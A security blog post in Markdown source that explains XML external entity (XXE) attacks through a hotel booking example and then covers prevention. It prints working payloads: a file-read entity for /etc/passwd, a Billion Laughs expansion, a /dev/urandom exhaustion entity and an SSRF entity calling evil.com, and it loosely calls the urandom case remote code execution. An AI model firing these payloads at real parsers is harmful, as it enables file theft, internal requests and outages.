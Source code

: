 ```yaml
---
title: XXE Attacks
contributor: Gert J. Oberholzer
avatar: kobus-oberholzer.png
description: A summary on external entity injections, how they are used in an attack and how to prevent most of them
date: 2022-10-13
tags: [xml, security]
id: xxe-attacks
relatedPost: react-xss
---
```

{% image_fw 1.78 banner.png "XXE Attacks" %}

In recent years, there has been an increase in the number of XXE (external entity attacks) injections. These attacks take advantage of vulnerabilities in XML processing to inject malicious code into a system. This can allow attackers to gain access to sensitive data or even take control of the system altogether. Fortunately, there are steps you can take to prevent XXE attacks. In this blog post, we will explore some of the most common methods used by attackers and how you can protect your systems against them.

## Table of Contents
<!-- toc -->

## What is an XXE attack?

An XXE attack is a type of attack that exploits vulnerabilities in an XML parser to deliver an XXE payload. This can allow attackers to read local files, send HTTP requests to internal resources, and even perform denial-of-service attacks.

To prevent XXE attacks, it's important to keep your software up to date and to use a **web application firewall** (WAF) to block malicious requests.

## How do XXE attacks work?

An XXE attack occurs when an attacker exploits a vulnerability in an weakly configured XML parser to gain access to sensitive information. The attacker sends specially crafted XML data to the vulnerable parser, which then processes the data and returns the results to the attacker. This can be used to view files on the server, execute commands, or even gain access to other servers on the network.

XXE attacks are often possible due to poor input validation. For example, if an application allows users to upload XML files, but does not properly validate the contents of those files, an attacker could upload a malicious file that contains code that would be executed by the XML parser.

To prevent XXE attacks, it is important to properly validate all input, especially input that comes from untrusted sources. All XML parsers should be configured to disable the processing of external entities by default. If external entities must be processed for some reason, strict validation should be used to ensure that only trusted entities are processed.

## How XXE attacks are used

To demonstrate the different ways XXR attacks work, let's set a scene. A booking system for a hotel is being attacked and we need to evaluate all potential attack vectors.

### Retrieve local files

A very basic way XXE payloads can be used is to retrieve files from the server. Let's say the original usage of XML file was to retrieve information on a booking made by a client like so:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <bookingId>23</bookingId>
    ```

We can adjust this XML data to retrieve files we specify and let it return the results.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
       <!ELEMENT foo ANY>
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <bookingId>&xxe;</bookingId>
    ```

This is considered an **in-band** attack as the vector of attack is clear and the information retrieved is in the form of a response. Another type of attack is called an **out-of-band** attack like a blind attack.

### Blind attack

Blind attacks are when there are some forms of security measures in place that would prevent you from directly requesting privileged information. There is however still a potential attack surface that is just more hidden, by doing a bind attack you may potentially stumble upon a server response in the shape of an error message that reveals more information than intended, an example would be if the parser's error response is disclosing local files which the attacker can choose to infiltrate.

### Denial of service attack

If the attention is not necessary to retrieve data but to deny service, maybe a popular band is performing and the bad actor wants to have a peaceful stay by preventing other potential guests from booking.

This would be the ideal scenario to dispatch a DOS attack. One such attack type is called A Billion Laughs attack.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE lolz [
       <!ENTITY lol "lol">
       <!ELEMENT lolz (#PCDATA)>
       <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
       <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
       <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
       <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
       <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
       <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
       <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
       <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
       <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```

Now the reason for the name has become prevalent, let's discuss how it works. First, lol9 will be called which in turn calls lol8 that calls lol7... and this will continue turning kb's of data into GB's within moments.

Another popular way of achieving the same outcome can be done using remote code execution. Asuming the server operates on Linux, an endless recursive file can be called as follows.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "file:///dev/urandom">
    ]>
    <foo>&xxe;</foo>
    ```

The goal of this type of attack is to use all server resources possibly impacting application availability

### Server-side request forgery (SSRF)

Server-side request forgery happens when the payload appears to be from internal systems, which grants the attacker access to local resources as if authorized.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "http://evil.com/">
    ]>
    <foo>&xxe;</foo>
    ```

This type of attack can be used as the door to a multitude of other attacks and exploits, such as remote code execution, DOS attacks, or just simply gaining access to privileged information, all while leaving a backdoor for future attacks.

{% img "ssrf-attack.png" "SSRF XXE Attack" "lazy" %}

## How to prevent XXE attacks

XXE attacks exploit vulnerabilities in the way that XML parsers process input. An attacker can supply malicious input to an XML parser in order to cause it to execute unintended actions or access sensitive information.

There are several methods that can be used to prevent XXE vulnerabilities. First, make sure that your XML parser is configured to disable external entity processing. This will ensure that the parser does not automatically resolve external references when processing input.

Next, use positive security controls such as input validation and output encoding. Input validation ensures that all input supplied to the XML parser is well-formed and does not contain any malicious code. Output encoding ensures that any data retrieved from the XML document is properly escaped so that the browser cannot execute it.

Finally, keep your software up to date. Newer versions of XML parsers typically include fixes for XXE vulnerabilities as they are discovered. By keeping your software up to date, you can help to protect yourself against these types of attacks.

## What to do if you're a victim of an XXE attack

If you're a victim of an XXE attack, you should first report the incident to your organization's security team. They'll be able to investigate the attack and take steps to prevent it from happening again.

You should also change any passwords that may have been compromised in the attack. Be sure to use strong, unique passwords for all of your accounts. And finally, stay vigilant for any suspicious activity on your accounts or devices.

## Conclusion

XXE attacks are a serious security threat, but they can be prevented with the right precautions. Be sure to disable external entity parsing in your XML parser, and use a whitelist approach when processing untrusted XML input. With these measures in place, you can rest assured that your applications will be safe.

If any of these topics interests you and you would like to prevent other potential vulnerabilities like this, we offer a complete course on developing with security matters in mind at [websecurity-academy](https://websecurity-academy.com/).
